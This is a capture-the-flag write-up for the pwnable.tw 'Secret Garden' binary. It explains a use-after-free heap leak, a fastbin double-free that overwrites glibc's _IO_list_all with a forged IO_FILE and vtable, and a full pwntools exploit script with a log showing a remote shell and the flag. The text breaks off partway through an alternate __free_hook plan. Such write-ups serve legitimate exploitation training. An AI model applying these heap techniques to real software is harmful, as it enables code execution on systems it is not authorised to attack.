




secretgarden: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped


CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL


## Intro
The program allows us to perform several actions.


☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ 
☆          Secret Garden          ☆ 
☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ 

  1 . Raise a flower 
  2 . Visit the garden 
  3 . Remove a flower from the garden
  4 . Clean the garden
  5 . Leave the garden

Your choice : 


Let's go through each of these menu options one at a time.

### Raise a flower
You can create flower objects that are based off the following struct.


**Each time you create a new flower, you actually create 2 chunks on the heap.**

The first chunk is created to hold the flower object itself. This first chunk is always created with `malloc(0x28)`.

The second chunk is created to hold the flower object's name. The user can define both the size of this chunk as well as its contents.

A pointer to this second chunk is contained within the first chunk. We can call it `flower->ptrName`.

After a flower is created, a pointer to the flower chunk is stored in a global array called `Garden`.

Here is an example of a garden with 3 flowers in it.

gdb-peda$ x/8xg $base+0x202040
0x555555756040: 0x0000555555757010      0x0000555555757480
0x555555756050: 0x00005555557574e0      0x0000000000000000
0x555555756060: 0x0000000000000000      0x0000000000000000


### Visit the garden
Visiting the garden iterates through and prints out the name and color of each flower.


Name of the flower[0] :flower1name

Color of the flower[0] :flower1color
Name of the flower[1] :flower2name

Color of the flower[1] :flower2color
Name of the flower[2] :flower3name

Color of the flower[2] :flower3color


### Remove a flower from the garden
Selecting this option allows you to delete your flower. You can select the index of the flower in the garden you would like to delete.
**Deleting a flower through this option does not `free()` the actual flower object chunk!**
What it does, instead, is delete the flower object's name chunk!

`free(flower->ptrName);`

An interesting thing to note here is that even though you free the `flower->ptrName` chunk, the pointer to the `flower` chunk is not zero-ed out in the garden global array.

**This allows you to perform double-free's and use-after-free's, which we will abuse later** :)

Lastly, in this function, the `status` bit in the flower chunk that has been deleted is set to `0` so that the next time `printGarden()` is called, it knows that this flower's name has been freed, and to not print it.  

### Clean the garden
When this option is selected, all the flower pointers in the garden are iterated through, and if its `status` bit has been turned off,
the program `free()`'s the flower chunk and zero's out its associated index in the garden global array. 


v2 = (void **)garden;
do
{
    flower = *v2;
    if ( *v2 && !*(_DWORD *)flower )
    {
        free(flower);
        *v2 = 0LL;
        --flowerCount;
    }
    ++v2;
}


### Leave the garden
All this does is print out "See you next time." and call `exit(0)`.

## Infoleaks
As mentioned before, because flower chunks are not immediately zero'd out when their name chunks are `free()`'d, we can perform double frees and use-after-free's.

We can use our ability to perform UAF's to free 2 smallbin sized chunks and allocate 2 new small bin sized chunks over them to leak their FD and BK pointers. 

This allows us to leak both the heap base and libc base addresses.

Before we reallocate our small chunks into into our free small chunks, this is what the heap looks like.

gdb-peda$ x/100xg 0x00005643a4b7c050
0x5643a4b7c050: 0x4242424242424242      0x4242424242424242
0x5643a4b7c060: 0x4242424242424242      0x4242424242424242
0x5643a4b7c070: 0x4242424242424242      0x0000000000000031
0x5643a4b7c080: 0x0000000000000001      0x00005643a4b7c0b0
0x5643a4b7c090: 0x4343434343434343      0x4343434343434343
0x5643a4b7c0a0: 0x0043434343434343      0x0000000000000031
0x5643a4b7c0b0: 0x4444444444444444      0x4444444444444444
0x5643a4b7c0c0: 0x4444444444444444      0x4444444444444444
0x5643a4b7c0d0: 0x4444444444444444      0x0000000000000031
0x5643a4b7c0e0: 0x0000000000000000      0x00005643a4b7c110
0x5643a4b7c0f0: 0x4545454545454545      0x4545454545454545
0x5643a4b7c100: 0x0045454545454545      0x0000000000000091<-- free chunk 1
0x5643a4b7c110: 0x00007fd76f204b78      0x00005643a4b7c220
0x5643a4b7c120: 0x4646464646464646      0x4646464646464646
0x5643a4b7c130: 0x4646464646464646      0x4646464646464646
0x5643a4b7c140: 0x4646464646464646      0x4646464646464646
0x5643a4b7c150: 0x4646464646464646      0x4646464646464646
0x5643a4b7c160: 0x4646464646464646      0x4646464646464646
0x5643a4b7c170: 0x4646464646464646      0x4646464646464646
0x5643a4b7c180: 0x4646464646464646      0x4646464646464646
0x5643a4b7c190: 0x0000000000000090      0x0000000000000030
0x5643a4b7c1a0: 0x0000000000000001      0x00005643a4b7c1d0
0x5643a4b7c1b0: 0x4747474747474747      0x4747474747474747
0x5643a4b7c1c0: 0x0047474747474747      0x0000000000000031
0x5643a4b7c1d0: 0x4848484848484848      0x4848484848484848
0x5643a4b7c1e0: 0x4848484848484848      0x4848484848484848
0x5643a4b7c1f0: 0x4848484848484848      0x0000000000000031
0x5643a4b7c200: 0x00005643a4b7c0d0      0x00005643a4b7c230
0x5643a4b7c210: 0x4949494949494949      0x4949494949494949
0x5643a4b7c220: 0x0049494949494949      0x0000000000000091 <-- free chunk 2
0x5643a4b7c230: 0x00005643a4b7c100      0x00007fd76f204b78
0x5643a4b7c240: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c250: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c260: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c270: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c280: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c290: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c2a0: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c2b0: 0x0000000000000090      0x0000000000000030
0x5643a4b7c2c0: 0x0000000000000001      0x00005643a4b7c2f0
0x5643a4b7c2d0: 0x4b4b4b4b4b4b4b4b      0x4b4b4b4b4b4b4b4b
0x5643a4b7c2e0: 0x004b4b4b4b4b4b4b      0x0000000000000031
0x5643a4b7c2f0: 0x4c4c4c4c4c4c4c4c      0x4c4c4c4c4c4c4c4c
0x5643a4b7c300: 0x4c4c4c4c4c4c4c4c      0x4c4c4c4c4c4c4c4c
0x5643a4b7c310: 0x4c4c4c4c4c4c4c4c      0x000000000001fcf1
0x5643a4b7c320: 0x0000000000000000      0x0000000000000000
gdb-peda$ directory $cwd
Source directories searched: $cwd:$cdir


***As a side note, we also run the `directory $cwd` command in gdb to load our glibc source files in the current directory so that we can perform source-assisted debugging in gdb later when we enter libc functions.*** 

Back to the challenge, now look what our heap looks like after we realloc the small chunks we just freed and write data into them.

gdb-peda$ x/100xg 0x00005643a4b7c050
0x5643a4b7c050: 0x4242424242424242      0x4242424242424242
0x5643a4b7c060: 0x4242424242424242      0x4242424242424242
0x5643a4b7c070: 0x4242424242424242      0x0000000000000031
0x5643a4b7c080: 0x0000000000000001      0x00005643a4b7c0b0
0x5643a4b7c090: 0x4343434343434343      0x4343434343434343
0x5643a4b7c0a0: 0x0043434343434343      0x0000000000000031
0x5643a4b7c0b0: 0x4444444444444444      0x4444444444444444
0x5643a4b7c0c0: 0x4444444444444444      0x4444444444444444
0x5643a4b7c0d0: 0x4444444444444444      0x0000000000000031
0x5643a4b7c0e0: 0x0000000000000001      0x00005643a4b7c230
0x5643a4b7c0f0: 0x5858585858585858      0x5858585858585858
0x5643a4b7c100: 0x0058585858585858      0x0000000000000091<-- realloced chunk 1
0x5643a4b7c110: 0x0a5a5a5a5a5a5a5a      0x00005643a4b7c220
0x5643a4b7c120: 0x4646464646464646      0x4646464646464646
0x5643a4b7c130: 0x4646464646464646      0x4646464646464646
0x5643a4b7c140: 0x4646464646464646      0x4646464646464646
0x5643a4b7c150: 0x4646464646464646      0x4646464646464646
0x5643a4b7c160: 0x4646464646464646      0x4646464646464646
0x5643a4b7c170: 0x4646464646464646      0x4646464646464646
0x5643a4b7c180: 0x4646464646464646      0x4646464646464646
0x5643a4b7c190: 0x0000000000000090      0x0000000000000031
0x5643a4b7c1a0: 0x0000000000000001      0x00005643a4b7c1d0
0x5643a4b7c1b0: 0x4747474747474747      0x4747474747474747
0x5643a4b7c1c0: 0x0047474747474747      0x0000000000000031
0x5643a4b7c1d0: 0x4848484848484848      0x4848484848484848
0x5643a4b7c1e0: 0x4848484848484848      0x4848484848484848
0x5643a4b7c1f0: 0x4848484848484848      0x0000000000000031
0x5643a4b7c200: 0x0000000000000001      0x00005643a4b7c110
0x5643a4b7c210: 0x5858585858585858      0x5858585858585858
0x5643a4b7c220: 0x0058585858585858      0x0000000000000091 <-- realloced chunk 2
0x5643a4b7c230: 0x0a5a5a5a5a5a5a5a      0x00007fd76f204b78
0x5643a4b7c240: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c250: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c260: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c270: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c280: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c290: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c2a0: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x5643a4b7c2b0: 0x0000000000000090      0x0000000000000031
0x5643a4b7c2c0: 0x0000000000000001      0x00005643a4b7c2f0
0x5643a4b7c2d0: 0x4b4b4b4b4b4b4b4b      0x4b4b4b4b4b4b4b4b
0x5643a4b7c2e0: 0x004b4b4b4b4b4b4b      0x0000000000000031
0x5643a4b7c2f0: 0x4c4c4c4c4c4c4c4c      0x4c4c4c4c4c4c4c4c
0x5643a4b7c300: 0x4c4c4c4c4c4c4c4c      0x4c4c4c4c4c4c4c4c
0x5643a4b7c310: 0x4c4c4c4c4c4c4c4c      0x000000000001fcf1


Now, when we print out our garden, we will leak both a heap address and a libc address which we can use to calculate the heap base address and libc base address, respectively.


## Fastbin attack
Next, we will perform a fastbin attack to overwrite the `_IO_list_all` pointer which points to a `_IO_FILE_plus` object.

The `_IO_list_all` pointer is referenced when a memory corruption error is detected and the `abort()` routine is triggered.

In stage 1 of the `abort()` subroutine in `abort.c:69-75`, we can see that `fflush()` is called. 

  /* Flush all streams.  We cannot close them now because the user
     might have registered a handler for SIGABRT.  */
  if (stage == 1)
    {
      ++stage;
      fflush (NULL);
    }


When `fflush()` is called, the `_IO_flush_all_lockp()` subroutine in `genops.c:758` is called.
I've cleaned it up a bit to make it easier to read, but the subroutine does the following. 

int _IO_flush_all_lockp (int do_lock){
  struct _IO_FILE *fp;

  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
#endif
       )
      && _IO_OVERFLOW (fp, EOF) == EOF)
[...]


It gets the `_IO_list_all` pointer and performs a bunch of checks on the `_IO_FILE_plus` object it references and if we pass all these checks, it eventually calls `_IO_OVERFLOW`.

**`_IO_OVERFLOW` is actually a virtual function in the `_IO_FILE_plus` object's vtable!** 

**So our plan from here is to overwrite the `IO_FILE_plus` pointer to make it point to an area in memory that we can control, where we will haved crafted a fake `_IO_FILE_plus` object in such a way that it passes all the checks done before its `_IO_OVERFLOW` virtual function is called. In order to exploit this last part to control RIP, we will also need to craft a fake vtable somewhere in controllable memory so that when the program calls what it thinks is the `_IO_OVERFLOW` vpointer, it will call our "one shot" gadget, instead.** 



We can achieve this through a series of fastbin attacks.

First, let's do a quick refresher on how fastbins work.

Fastchunks are stored in a singly-linked list when they are free'd. Therefore, they only have a `FD` pointer, and no `BK` pointer.


Additionally, when checking for double-free errors, only the node at the head of the freelist is checked.

For example, if our freelist looks like this, we cannot free A again, as it will trigger a double-free error. 

```bash
[HEAD]->A->B->NULL
```

**However, because B is not at the head of the freelist, we can free B again so that our freelist looks like this afterward:**

```bash
[HEAD]->B->A->B->NULL
```

Lastly, fastchunks are allocated from freelists **LIFO**.  

**We can abuse these properties of fastbins to get `malloc()` to return an almost arbitrary pointer for us!**

## Corrupt FD pointer
First, we setup our fastbin for size `0x70` indexes like so.

addFlower(0x68,"A"*23,"B"*28) # A, B
addFlower(0x68,"C"*23,"D"*28) # C, D
addFlower(0x68,"E"*23,"F"*28) # E, F

delFlower(8)
delFlower(7)
delFlower(6)
delFlower(7)
delFlower(8)


Now our fastbin for size `0x70` fastchunks should look like this:

```bash
[HEAD]->F->D->B->D->F->NULL
```

We can confirm this in GDB.

gdb-peda$ p main_arena.fastbinsY
$8 = {0x0, 0x0, 0x0, 0x0, 0x0, 0x5643a4b7c480, 0x0, 0x0, 0x0, 0x0}
gdb-peda$ x/8xg 0x5643a4b7c480     <---F
0x5643a4b7c480: 0x0045454545454545      0x0000000000000071
0x5643a4b7c490: 0x00005643a4b7c3e0      0x4646464646464646
0x5643a4b7c4a0: 0x4646464646464646      0x0000000046464646
0x5643a4b7c4b0: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/8xg 0x00005643a4b7c3e0 <---D
0x5643a4b7c3e0: 0x0043434343434343      0x0000000000000071
0x5643a4b7c3f0: 0x00005643a4b7c340      0x4444444444444444
0x5643a4b7c400: 0x4444444444444444      0x0000000044444444
0x5643a4b7c410: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/8xg 0x00005643a4b7c340 <---B
0x5643a4b7c340: 0x0041414141414141      0x0000000000000071
0x5643a4b7c350: 0x00005643a4b7c3e0      0x4242424242424242
0x5643a4b7c360: 0x4242424242424242      0x0000000042424242
0x5643a4b7c370: 0x0000000000000000      0x0000000000000000


Notice that `D->FD` points to `B` now instead of `F`, because we've free'd it twice.

Next we do the following:

target = libc_base+0x3c44fd         #_IO_list_all 00000000003c4520
addFlower(0x68,"G"*23,"H"*0x10)     # G, H
addFlower(0x68,"I"*23, p64(target)) # I, J: D->FD = _IO_list_all-0x30+0xd


Doing this pops `F` off the freelist and overwrites `D->FD` with our target chunk we would like `malloc()` to return.

Since we want to overwrite the `_IO_list_all` pointer, we can find our target using GDB.

gdb-peda$ p &_IO_list_all
$7 = (struct _IO_FILE_plus **) 0x7fd76f205520 <_IO_list_all>
gdb-peda$ x/2xg &_IO_list_all
0x7fd76f205520 <_IO_list_all>:  0x00007fd76f205540      0x0000000000000000



gdb-peda$ x/10xg 0x7fd76f205520-0x30
0x7fd76f2054f0 <_nl_global_locale+208>: 0x00007fd76efced9a      0x00007fd76efced9a
0x7fd76f205500 <_nl_global_locale+224>: 0x00007fd76efced9a      0x0000000000000000
0x7fd76f205510: 0x0000000000000000      0x0000000000000000
0x7fd76f205520 <_IO_list_all>:  0x00007fd76f205540      0x0000000000000000  <--- target
0x7fd76f205530: 0x0000000000000000      0x0000000000000000


So, we just overwrite `D->FD` with `0x7fd76f205510`, right? **WRONG!**

**If we do that, `malloc()` will fail when we try to get it to return `0x7fd76f205520` because the size of the chunk that is about to be reallocated, aka the "victim" chunk, has to match the requested size of the `malloc()`!!!**


if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}


However, we can get around this by overwriting `D->FD` with `0x7fd76f2054fd` which seems like a strange offset, but it works because it makes it so that the size of our requested chunk at `0x7fd76f2054fd` is now `0x7f`, which fits the size of our requested `malloc()` size of `0x68`!


gdb-peda$ x/8xg 0x7fd76f205520-0x30+0xd
0x7fd76f2054fd <_nl_global_locale+221>: 0xd76efced9a00007f      0x000000000000007f <-- _IO_list_all-0x30+0xd
0x7fd76f20550d: 0x0000000000000000      0x0000000000000000
0x7fd76f20551d: 0xd76f205540000000      0x000000000000007f
0x7fd76f20552d: 0x0000000000000000      0x0000000000000000


After corrupting `D->FD`, our `D` chunk looks like this:

gdb-peda$ x/8xg 0x00005643a4b7c3e0
0x5643a4b7c3e0: 0x0043434343434343      0x0000000000000071 
0x5643a4b7c3f0: 0x00007fd76f2054fd      0x4444444444444444 <-- D->FD = _IO_list_all-0x30+0xd
0x5643a4b7c400: 0x4444444444444444      0x0000000044444444
0x5643a4b7c410: 0x0000000000000000      0x0000000000000000



## Craft fake vtable
For the next part of our attack, we will craft a fake vtable. 

Actually, the only thing we need to do is place our one_gadget on the heap and just set our fake vtable addr = that heap address-0x18

We can see why in the disassembly of `_IO_flush_all_lockp()`

0x00007f14c89eb184 <+356>:   mov    rax,QWORD PTR [rbx+0xd8] <-- vptr/&vtable
0x00007f14c89eb18b <+363>:   mov    esi,0xffffffff
0x00007f14c89eb190 <+368>:   mov    rdi,rbx
0x00007f14c89eb193 <+371>:   call   QWORD PTR [rax+0x18] <-- virtual function
 

We can do that by popping `B` off the freelist and setting its name to our one_gadget.


addFlower(0x68,"K"*23, p64(one_gadget)) # K, L: just to place one_gadget in a predictable heap addr
fake_vtable = heap_base+0x1338          #       so that [fake_vtable+0x18] = one_gadget


gdb-peda$ x/8xg 0x5643a4b7c338
0x5643a4b7c338: 0x4141414141414141      0x0041414141414141
0x5643a4b7c348: 0x0000000000000071      0x00007fd76ef31567 <-- one_gadget @ +0x18
0x5643a4b7c358: 0x4242424242424242      0x4242424242424242
0x5643a4b7c368: 0x0000000042424242      0x0000000000000000


After this, we allocate another `0x68` byte chunk to pop D off the fastbin and place our target address (_IO_list_all-0x30+0xd) at the head of our freelist.

```bash
[HEAD]->target
```

## Craft fake IO_FILE object
Our next step will be to craft a fake IO_FILE object that will pass all our checks.
After doing some source assisted single-stepping through `_IO_flush_all_lockp.c`, we can narrow down the conditions we need to pass to just one:

* [FAKE_IO_FILE+0x20] < [FAKE_IO_FILE+0x28] 


0x00007fd76eebd16b <+331>:   test   eax,eax
0x00007fd76eebd16d <+333>:   jle    0x7fd76eebd280 <_IO_flush_all_lockp+608>
                      |      [jmp is always taken]
                      v
0x00007fd76eebd280 <+608>:   mov    rax,QWORD PTR [rbx+0x20]
0x00007fd76eebd284 <+612>:   cmp    QWORD PTR [rbx+0x28],rax
0x00007fd76eebd288 <+616>:   ja     0x7fd76eebd184 <_IO_flush_all_lockp+356>
                      |
                      v
0x00007f14c89eb184 <+356>:   mov    rax,QWORD PTR [rbx+0xd8] <-- vptr/&vtable
0x00007f14c89eb18b <+363>:   mov    esi,0xffffffff
0x00007f14c89eb190 <+368>:   mov    rdi,rbx
0x00007f14c89eb193 <+371>:   call   QWORD PTR [rax+0x18] <-- one_gadget

So, we can just set `[io_file+0x20] = 0x0` and `[io_file+0x28] = 0xffffffffffffffff`.

After that, we just need to place the address of our fake_vtable at offset `+0xd8`
and our one_gadget should be called!

We need to `malloc()` a chunk onto the heap to write this fake IO_FILE object to, that is sufficiently sized to store our fake vptr at offset `+0xd8`.


payload  = "\xff"*0x20
payload += p64(0x0)                   # [io_file+0x20] < [io_file+0x28]
payload += "\xff"*(0xd8-0x20-0x8)
payload += p64(fake_vtable)           # FAKE_IO_FILE+0xd8 = &fake_vtable  
payload += "\xff"*(0xfe-0xd8-0x8)+"\n"
addFlower(0xff,"O"*23,payload)        # does NOT pop anything off fastbin since size >= 0x80 bytes


After we `malloc()` this smallchunk looks like the following.

gdb-peda$ x/100xg 0x5643a4b7c5e0
0x5643a4b7c5e0: 0x004f4f4f4f4f4f4f      0x0000000000000111
0x5643a4b7c5f0: 0xffffffffffffffff      0xffffffffffffffff <-- fake _IO_file obj starts here
0x5643a4b7c600: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c610: 0x0000000000000000      0xffffffffffffffff <-- +0x20, +0x28
0x5643a4b7c620: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c630: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c640: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c650: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c660: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c670: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c680: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c690: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c6a0: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c6b0: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c6c0: 0xffffffffffffffff      0x00005643a4b7c338 <-- fake vptr
0x5643a4b7c6d0: 0xffffffffffffffff      0xffffffffffffffff
0x5643a4b7c6e0: 0xffffffffffffffff      0x000affffffffffff
0x5643a4b7c6f0: 0x0000000000000000      0x000000000001f911


## Overwrite _IO_list_all 
To recap, our freelist still looks like this since our previous allocation was not of a fastbin size. 

```bash
[HEAD]->target
```

Finally, we can make another `0x68` byte sized allocation to get `malloc()` to return our target chunk above `_IO_list_all`.
Then, we write our payload into this chunk to overwrite the `_IO_list_all` pointer. 


payload  = p64(0x4141414141414141)*2
payload += "BBB"
payload += p64(fake_IO_file)
addFlower(0x68,"Q"*23,payload)


After we add this flower, our `_IO_list_all` pointer should now point to our fake `_IO_file_plus` object.

gdb-peda$ x/10xg 0x7fd76f205520-0x20
0x7fd76f205500 <_nl_global_locale+224>: 0x00007fd76efced9a      0x4141410000000000
0x7fd76f205510: 0x4141414141414141      0x4242424141414141
0x7fd76f205520 <_IO_list_all>:  0x00005643a4b7c5f0      0x0000000000000000


## Trigger abort() subroutine
Lastly, to trigger the `abort()` subroutine which should eventually call our one_gadget, we just free a flower twice which will set off a double-free memory corruption error.

Putting everything together, we are able to get a shell using the following exploit.

## Exploit

#!/usr/bin/env python

from pwn import *
import sys

def addFlower(size,color,name):
    r.send("1")  
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.send(name) 
    r.recvuntil(":")
    r.send(color)
    r.recvuntil(":")

def delFlower(index, out=True):
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(index))
    if out:
        r.recvuntil(":")

def cleanGarden(index):
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(index))
    r.recvuntil(":")

def printGarden():
    r.sendline("2")
    wasted = r.recvuntil("ZZZZZZZ\n")
    return r.recvuntil("Your choice :")

def exploit(r):  
    r.recvuntil(":")

    ## STAGE 1: UAF TO LEAK LIBC, HEAP ##
    log.info("starting stage 1 UAF attack...")
    addFlower(0x28,"A"*23,"B"*0x28) # A, B
    addFlower(0x28,"C"*23,"D"*0x28) # C, D
    addFlower(0x80,"E"*23,"F"*0x80) # E, F # small chunk
    addFlower(0x28,"G"*23,"H"*0x28) # G, H
    addFlower(0x80,"I"*23,"J"*0x80) # I, J
    addFlower(0x28,"K"*23,"L"*0x28) # K, L # to avoid forward consolidation w/ wilderness

    # free F, J  
    delFlower(2) 
    delFlower(4) 

    # free E
    cleanGarden(2)

    # reallocs   
    addFlower(0x80,"X"*23,"ZZZZZZZ\n") # flower->ptrName chunk alloc'd over old F chunk
    addFlower(0x80,"X"*23,"ZZZZZZZ\n") # flower->ptrName chunk alloc'd over old J chunk

    leak = printGarden()
    heap_base = u64((leak[:6]).ljust(8,'\0'))-0x1220
    libc_base = leak.split("ZZZZZZZ\n")[1]
    libc_base = u64(((leak.split("ZZZZZZZ\n")[1])[:6]).ljust(8,'\0'))-0x3c3b78
    one_gadget = libc_base+0xf0567
    
    log.success("heap base found at: "+hex(heap_base))
    log.success("libc base found at: "+hex(libc_base))
    log.success('"magic" gadget found at: '+hex(one_gadget))
    
    ## STAGE 2: FASTBIN ATTACK TO GET MALLOC() TO OVERWRITE _IO_LIST_ALL ##
    # 2.1) setup fastbin for exploit
    log.info("starting stage 2 fastbin attack...")
    addFlower(0x68,"A"*23,"B"*28) # A, B
    addFlower(0x68,"C"*23,"D"*28) # C, D
    addFlower(0x68,"E"*23,"F"*28) # E, F
    
    delFlower(8)
    delFlower(7)
    delFlower(6)
    delFlower(7)
    delFlower(8)
    # fastbin now: [HEAD]->F->D->B->D->F->NULL
    
    # 2.2) set D->FD to _IO_list_all-0x30+0xd
    target = libc_base+0x3c44fd         #_IO_list_all 00000000003c4520
    addFlower(0x68,"G"*23,"H"*0x10)     # G, H
    addFlower(0x68,"I"*23, p64(target)) # I, J: D->FD = _IO_list_all-0x30+0xd
    # fastbin now: [HEAD]->B->D->target

    # 2.3) craft our fake vtable + pop B off fastbin
    addFlower(0x68,"K"*23, p64(one_gadget)) # K, L: just to place one_gadget in a predictable heap addr
    fake_vtable = heap_base+0x1338          #       so that [fake_vtable+0x18] = one_gadget
    log.success("target fake vtable at: "+hex(fake_vtable))

    addFlower(0x68,"M"*23,"N"*0x68) # filler allocations to pop D off fastbin 
    # fastbin now: [HEAD]->target

    # 2.4) before we overwrite _IO_list_all, let's craft fake IO_FILE object in a non-fastbin sized heap chunk
    payload  = "\xff"*0x20
    payload += p64(0x0)                   # [io_file+0x20] < [io_file+0x28]
    payload += "\xff"*(0xd8-0x20-0x8)     
    payload += p64(fake_vtable)           # FAKE_IO_FILE+0xd8 = &fake_vtable  
    payload += "\xff"*(0xfe-0xd8-0x8)+"\n" 
    addFlower(0xff,"O"*23,payload)        # does NOT pop anything off fastbin since size >= 0x80 bytes
    
    fake_IO_file = heap_base+0x15f0 
    log.success("fake IO_FILE object crafted at: "+hex(fake_IO_file-0x10))
    
    # 2.5) now that we've crafted fake_IO_FILE, let's overwrite _IO_list_all with &fake_IO_FILE
    payload  = p64(0x4141414141414141)*2
    payload += "BBB"
    payload += p64(fake_IO_file)
    addFlower(0x68,"Q"*23,payload)
   
    ## STAGE 3: TRIGGER DOUBLE FREE CORRUPTION TO CALL ABORT() ROUTINE ## 
    log.info("triggering double free corruption...")
    delFlower(8)
    delFlower(8,False)
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/secret_garden/secretgarden'], env={"LD_PRELOAD":"./libc_64.so.6"})
        #r = process(['/home/vagrant/CTFs/pwnable.tw/secret_garden/secretgarden'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)



➜  secret_garden python solve.py chall.pwnable.tw 10203        
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10203: Done
[*] '/home/vagrant/CTFs/pwnable.tw/secret_garden/libc_64.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting stage 1 UAF attack...
[+] heap base found at: 0x562db06df000
[+] libc base found at: 0x7f6e85a49000
[+] "magic" gadget found at: 0x7f6e85b39567
[*] starting stage 2 fastbin attack...
[+] target fake vtable at: 0x562db06e0338
[+] fake IO_FILE object crafted at: 0x562db06e05e0
[+] _IO_list_all at 0x7f6e85e0d520 overwritten!
[*] triggering double free corruption...
[*] Switching to interactive mode
$ cat /home/secretgarden/flag
FLAG{FastBiN_C0rruption_t0_BUrN_7H3_G4rd3n}
$  


# Alternate plan 1
My first idea was actually to perform a fastbin attack to overwrite one of the `*_hook` function pointers to control RIP.
The `*_hook` function pointers are just pointers in libc that are called when certain functions in `malloc.c` are performed **if the pointer exists**. 

By default, they are initialized to `0x0` and are not called.

**Fortunately, for us, these pointers are all writeable :)**

For example, `__free_hook` pointer is called if it is not a NULL pointer

void
__libc_free(void* mem)
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */

  void (*hook) (void *, const void *)
    = force_reg (__free_hook);
  if (__builtin_expect (hook != NULL, 0)) {
